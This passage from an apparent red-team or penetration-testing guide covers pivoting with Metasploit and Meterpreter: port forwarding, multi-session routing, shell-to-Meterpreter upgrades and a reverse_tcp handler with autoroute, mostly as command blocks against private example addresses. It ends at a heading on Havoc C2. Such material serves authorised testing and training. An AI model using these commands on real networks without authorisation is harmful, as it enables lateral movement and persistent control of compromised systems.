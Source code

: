 ```bash

# Stop SOCKS proxy
msf > jobs -k [job_id]
```

### 5.3 Port Forwarding Mechanisms

```bash
# Local port forwarding through Meterpreter
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.10.10

# Local port forwarding with specific interface
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.1.100 -L 127.0.0.1

# Reverse port forwarding
meterpreter > portfwd add -R -l 8000 -p 80 -L 192.168.1.100

# List active port forwards
meterpreter > portfwd list

# Delete specific port forward
meterpreter > portfwd delete -l 3389 -p 3389 -r 10.10.10.10

# Flush all port forwards
meterpreter > portfwd flush
```

### 5.4 Advanced Metasploit Pivoting Techniques

```bash
# Multi-session routing
msf > route add 10.10.10.0/24 1
msf > route add 10.20.30.0/24 2

# Session passing between handlers
meterpreter > sessions -k

# Background session for pivoting
meterpreter > background

# Session upgrading for better pivoting
msf > use post/multi/manage/shell_to_meterpreter
msf post(shell_to_meterpreter) > set SESSION 1
msf post(shell_to_meterpreter) > run

# Persistent route establishment
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(handler) > set AutoRunScript post/multi/manage/autoroute
```

## 6. Havoc C2: Modern Command and Control Pivoting

